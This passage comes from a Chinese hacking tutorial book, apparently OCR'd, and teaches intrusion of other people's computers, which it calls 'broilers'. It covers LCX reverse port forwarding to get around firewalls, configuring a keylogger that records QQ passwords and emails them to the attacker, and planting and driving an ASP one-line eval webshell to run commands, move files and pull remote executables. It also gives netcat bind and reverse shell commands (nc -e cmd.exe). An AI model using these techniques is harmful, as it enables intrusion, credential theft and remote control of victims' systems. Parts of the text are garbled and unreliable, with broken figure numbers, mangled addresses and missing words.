这是因为服务器安装了防火墙，禁止外部连接端口，除非外面的连接允许了向外的数据包通过。好办法是可以有一个监听端口，通常就可以用反向连接来实现，就是利用黑客对本机连接端口很少限制的规则。整个过程是在黑客的计算机 B 把 389 端口的信号转发到 51 端口，再到服务器 A 也把 389 端口的信号转发到 51 端口，并且让连接黑客计算机 51 端口建立连接。因为是服务器端连接外部，防火墙是不会被拒绝的，建立成功后，在黑客主机上连接 389 端口，通过一连串的，实际上对于连接了服务器 A，如图174所示。


图174

而 `LCX` 就是用来实现以上连接的工具，`LCX` 的帮助说明中对于这个过程有描述。在之前已经尝试过，23 端口连接不上，现在用的思路是：给大家演示一下服务器 A 端23 端口信号转发到黑客主机建立反向连接。在自己的计算机上运行 `lcx -listen 51`，23 端口的信号转发给 51 端口，在 51 端口等待客户连接，如图175所示。

```
lcx -listen 51
第二、第三次尝试，在本机上监听-listen 51 端口
在基本上连接了10.0.0.1之后就可以尝试3389。
+] Listening port 51 ................................................
+] Listening port 23 ................................................
+] Listening OK!
+] Waiting for Client on port:51 .................................
```

图175


在服务器上执行 `lcx -slave 服务器的IP 地址 51，黑客计算机的IP 地址 73`，运行后出现如图176所示，而在黑客的计算机上出现如图177所示。


176


177

提示从51端口进来了，反向建立连接。现在试试连接上的23端口，现在IP地址需要修改为本机。输入 `telnet 127.0.0.1` 连接成功，如图178所示。


178


278

最后调整一下，多看图174，深入理解转发防火墙的思路，在使用请大家灵活运用。

## 20 如何使用调试器：

在第二章《常见问题解答》中已经介绍了者的用法，本节将使用调试器v1.3来说是如何使用的，查看工具的功能：

- 监控键盘、操作并记录用户的所有操作
- 记录QQ密码、浏览过的网页和文件夹
- 通过保存文件，定时发送到你指定的邮箱内

特点是：方便使用，只有一个可执行文件就可以配置简单，程序只有一个可执行文件，大约200KB，使用时要先设置好的邮件地址。方法：修改文件名`keycapture@126.exe`时将修改为你的邮箱地址，后缀名为`.exewhereyourname@sohu.com`，这种文件名为`nohack1@163.exe`，如图179所示。


179

| keycapture@126.com | 文件(F) | 编辑(E) | 帮助(H) |
|---|---|---|---|
| 运行自动调试 | 运行调试对话框，运行自动记录 |  |  |
| 停止记录 |  |  |  |
| 自动保存间隔：50 分钟 |  |  |  |
| 自动保存并停止 |  |  |  |
| 保存一次后发送 | 自动发送Email |  |  |
| 2009-09-22 07:34:42 记录计数:0 |  |  |  |
| 2009-09-22 07:34:48 DictagrapheKey-1.3 0 |  |  |  |

第一次运行时调试设置，按下`Alt+Ctrl+Shift+F1`组合，软件的界面出来了。选择“设置”。

## 调试技巧

中的“发件箱”设置，这里是输入用来转发信息的邮件邮箱地址、发送邮件的 SMTP 服务器、邮箱账号和密码，如图181所示。


181

“收件箱”设置中包含你要查看的记录保存的邮箱地址，这两点和普通邮箱的设置没有区别。然后在功能选项上点击“开机时自动同步”、“运行自动隐藏”、“运行时自动复制”选上，如图182所示。“自动发送 Email”要选，这样每半小时就会往留邮箱发送一次记录的数据包。


182

“限制时保存”就不要设置了，因为只是记录发送到邮箱的，这里还要保存到本地是不可能的，而且在肉鸡上运行容易导致崩溃。设置好后点击右上角的叉号，将程序文件发送给那边，办法让他运行一次，那么你只需要等查看邮件就能看到结果了。这个程序在手机上执行后就会开始记录对方的信息，每次设置的发送时间，它就会把信息发送到我的收件箱中。通过查看邮件的内容可以看到设置的按钮，从而分析出相关用户名和密码，如图183所示。


281

从图183中可以看到记录的相关信息，包括时间和字符。我们会看到对方的。查看工具的功能：

- 记录所有操作
- 记录密码
- 浏览过的网页和文件夹
- 通过保存文件
- 定时发送到你指定的邮箱

特点是：方便使用，只有一个可执行文件就可以配置简单，程序只有一个可执行文件，大约200KB。这种木马是把文件传到服务器上的，功能比较大，但是体积比较大，这样限制了它的利用，使得它不能一句话木马就能插入到正常的ASP里。另外，整体木马太大慢，还得被各种过滤掉。对于这些问题，聪明的黑客想把WEB木马做成客户端/服务端的形式来克服自身的弱点，的就是英文简称的C/S木马。

C/S木马有几个特点：

- 客户端（C）很小，体积小自然适用。
- 功能完全，不需要功能。

以前的章节中已经介绍了大家如何使用Webshell木马，它可以浏览文件、上传文件、执行命令、连接数据库等，这种木马只要访问文件的URL，再输入密码就可以操作。

1. 服务器连接
2. 参数数据（系统信息、数据库、访问文件、终端响应
3. 登录控制
4. 客户端访问权限
5. 客户端与服务端交互
6. WScript.Shell程序运行
7. Shell.Application程序运行
8. IIS访问权限
9. Shell.Application文件创建
10. 权限修改/操作
11. 文件修改
12. 一些简单的脚本

| File | View | Favorites | Tools | Help |
|---|---|---|---|---|
| The example(function) ASP BadDoorClient |  |  |  |  |
| URL: http://localhost/newaspdoor/index.asp |  |  |  |  |
| Function: ABOUT |  |  |  |  |
| Send |  |  |  |  |

## 黑客 实战技巧

在下方的段中，这段就包含了服务端的代码，如图188所示。

```
This program is eval(request('go')) code client, Create by lake2
Site: http://lake2.0x4.org
Mail: lake2@mail.cdnn.net
Thanks: Internet
Version: 1.0
Date: 2005-08-28
```


283

`<%eval("go")%>`这一代码保存为asp后的文件，它就是C/S木马服务端，中引号内的go是get的，可以将其改成我们自己的代码。这里我改为`<%eval request("nohack")%>`保存为`nohack.asp`文件并上传到网站上，如图189所示。

| The URL | http://www...com/n/nohack.asp | Password: nohack |  |  |
|---|---|---|---|---|
| Function | ABOUT |  |  |  |
| Send |  |  |  |  |

```
This program is eval(request('go')) code client, Create by lake2
Site: http://lake2.0x4.org
Mail: lake2@mail.cdnn
```


在左边的“URL”处输入服务器地址，“Password”处输入服务器密码，“Function”要选“ABOUT”，相对于测试。点击“Send”按钮，在弹出的IE窗口中，如果出现“Hello, world!”，说明测试成功，木马运作正常，如图191所示。

| The URL | http://www...com/n/nohack.asp |
| --- | --- |
| Hello, world! |  |

## 第六章 黑客工具调试技巧

“Server Variable”是服务器状况，选中“Send”，返回服务器的状况信息，如图192。

| Name | Value | Type | IsReady | FileSystem | AvailableSpace |
| :--- | :--- | :--- | :--- | :--- | :--- |
| SYSTEM | FIXED |  |  | NTFS | Not Ready |
| WWW | FIXED |  |  | NTFS | 1.41 G |
|  | FIXED |  |  | NTFS | 10.45 G |
| MAIL | FIXED |  |  | NTFS | 10.57 G |
|  |  |  |  |  | Not Ready |
|  |  |  |  |  | Not Ready |

图192

“GET Drives”是服务器请求，从返回的结果中显示出了标签名、分区的类型、分区以及。

“File List”是文件列表，选中后面就会出现一个地址输入框，如图194所示。这里可以填写要查看的绝对路径，再点“Send”就能看到该目录的文件列表，如图195所示。


| Name | Size | Modified |
| :--- | :--- | :--- |
| backup | Dir | 2008-07-17 23:42:42 |
| bbs | Dir | 2007-10-29 21:29:52 |
| bbs.. .com cn | Dir | 2007-04-28 9:43:36 |
| blog.. .com cn | Dir | 2006-12-03 15:03:49 |
| .com cn | Dir | 2007-11-11 16:56:44 |
| bysgsl | Dir | 2008-04-13 3:03:15 |
| cp | Dir | 2007-03-21 10:50:02 |
| dfxp | Dir | 2008-04-13 3:03:14 |
| job.. .com cn | Dir | 2006-06-12 10:11:24 |
| jtyx | Dir | 2007-07-09 10:44:07 |
| jtx.. .com cn | Dir | 2008-04-13 3:03:13 |
| meiyu | Dir | 2008-05-19 15:53:26 |
| Microsoft SQL Server | Dir | 2007-06-13 19:26:32 |

图195

如果要得到下级的文件列表，就回到上一步，在地址处输入地址。如何查看meiyu目录，就在地址处写下`\meiyu`，这样就能看到目录的文件夹列表了。

“Copy Folder”是拷贝文件夹，“From”输入框要拷贝文件夹的地址，“to”处是复制到的地址，如图196所示。

| URL | http://www.com/cn/nohack.asp |
| :--- | :--- |
| Function: | Copy File & Folder [x] |
| Send |  |
| to: | `C:\Nest.aspx` |

Copy Folder

“Edit TextFile”是编辑文件，输入要填写的文件路径，在弹出的编辑框中编辑好后直接保存即可，如图197所示。

| URL | http://www.com/cn/nohack.asp |
| :--- | :--- |
| Function: Edit TextFile [x] |  |
| Send |  |
| Path: | `C:\Nest.aspx` |
| Re |  |

“New File Folder”是新建文件，和上面的“Edit TextFile”界面基本一样，填写路径和文件名就会创建一个新文件。

“Upload TextFile”是上传文本，“Path”输入框相对路径，下面的方框输入文本内容，如图198所示。然后点击“Send”就在服务器上生成了文件，这个方法用来上传WEB木马。

| URL | http://www.com/cn/nohack.asp |
| :--- | :--- |
| Function: | Upload TextFile [x] |
| Send |  |
| Path: | `F:\hack.asp` |
| The TextFile Content: Enjoy hackers! |  |

Upload Text

upload file will be over

“Download File”是下载文件功能，“Path”输入框要下载的文件路径，如图199所示。“delete”是删除文件，输入要删除的文件地址就能删除。

| URL | http://www.com/cn/nohack.asp |
| :--- | :--- |
| Function: | Download File [x] |
| Send |  |
| FilePath: | `F:\dvbs6.mdb` |
| Download |  |


## 第六章 黑客工具实现技巧

“Rename”是文件改名，“From”输入文件名，“to”输入修改后的文件名，如图200所示。

| Function: |  |  |  |
| :--- | :--- | :--- | :--- |
| Send |  |  |  |
| FolderPath as: |  |  |  |
| From: | `/Fake2.md` |  |  |
| to: | `fuck.md` |  |  |
|  | 200 |  |  |

“Upload URL”是从某个URL下载。这种方法可以上传文件，把它上传到自己的空间，通过URL将文件下载到服务器，如图201所示。与页面的“TextField”功能不同，通过URL传输任何文件。

| URL | http://www.com/nohack.asp |
| :--- | :--- |
| Function: | UploadFile From URL |
| Send | Upload File From URL |
| from URL | http://www4.org/program/Webadmin.exe |
| SavePath: | `/webadmin.nr` |
|  | 201 |

“WScript Shell”是执行命令。如果原来的`cmd.exe`不能执行，可以上传一个cmd到目录，把`cmd.exe`改为`d:\cmd.exe`，手工指定执行的cmd的路径，可以看到执行成功，如图202所示。

| URL | http://www.com/nohack.asp |
| :--- | :--- |
| Function: | WScript Shell |
| Send |  |  |
| Path and Command: | `cmd.exe /c net user` |
|  | 202 |

“ReadReg”是注册，在下面输入路径就能读了。“SQL Root”是权限连接数据库并执行命令的地方。“Connection str”输入字符串，“Command”输入命令，如图203所示。注意：这里登录命令不是SQL命令。

| Function: | SQLRoot |
| :--- | :--- |
| Send: | SQLRoot |
| Connection Str: | `Provider=OLEDB;Server=localhost;User ID=sa;Password=...` |
| Command: | `net user` |
|  | 203 |

“DATABASE”是连接和操作，支持ACCESS和MSSQL两种数据库连接。


## 第六章 黑客实战技巧

“Your Code”是快速扫描功能，在下面的框中输入代码，如图204所示。

| Function: | Database |
| :--- | :--- |
| Send: | Data |


| Connection Str: | `Provider=OLEDB.4.0;data-source=fuck.mdb` |
| --- | --- |
| Type: | MSSQL |
| | 204 |
| Function: | Your Code |
| Send: | `response.write(now "OA<`<br>`response.write("This is your code>")`<br>`response.write("Powered by lake")`<br>`response.end` |
| | 205 |

了解C/S木马的功能，我们可以看到，C/S木马具备的主要功能，但还有许多特点，应用非常好。生成木马的多种方法凡是学习过技术的，还不知道NC名字，NC具有多种功能，支持不同的网络。其方法多样，被称为黑客工具中的“瑞士刀”，特别是在进行操作时，必不可少的命令。NC许多功能平时接触得特别，但非常用NC这个工具真是实战的宝贝，它只是用来几个数字而已。现在的NC有两种，一种是精简版，只需2K；另一种是完全版，这样才有全部的功能。在肉鸡上执行`nc -vv -l 23 -t -e cmd.exe`，如图206所示，这个命令可以把CMD定向到23端口。

```
nc -vv -l 23 -t -e cmd.exe
listening on local [23...]
```

在我们的计算机上输入`nc -vv IP`，这样得到了肉鸡的命令执行权限，如图207所示。现在在这个CMD窗口执行的命令就会在远处的鸡上执行。

```
nc -vv 192.168.1.172 23 (telnet) open
Microsoft Windows XP [192.168.1.268]
(C) 版权所有1985-2001 Microsoft Corp.
```

这个方法有用，有时在WEBSHE里执行命令后，总是假的，但是CMD下命令会轻松许多。这种正向连接会受到防火墙的拦截，但NC还可以支持反连接。


## 第六章 黑客工具竞技技巧

连接。在本地机器上执行命令`nc -v -n -p 8000`，如图208所示。

```
$nc -v -l -p 8000
listening on [anyl] 8000
```

在肉鸡上执行连接命令`nc -e cmd.exe 自己计算的IP地址8000`，这样就违反了黑客的计算上，如图209所示。

```
$nc -vv -p 116 192.172.1 8000
ly-0428d4766a [116.192.172.1] <open>
```

NC还能传输文件，这个可是很多朋友没有想过的。在肉鸡上执行命令`nc -v -p<接你传输的文件路径`，如图210所示，`lcx.exe`和`nc`在相同目录下，如果不是在同一个目录下，你需要输入的完整路径，如：`~/hackof/lcx.exe`。

```
$nc -v -l -p 1234 lcx.exe
listening on (any) 1234...
```

在本机执行命令`nc -v -p 1234` 保存的文件名，如图211所示，意味着连接到肉鸡1334端口，并将结果保存到桌面。

```
:Documents and Settings\Administrator>nc -vv -p 116 192.172.1 lcx.exe
ly-0428d4766a [116.192.172.1] <open>
```
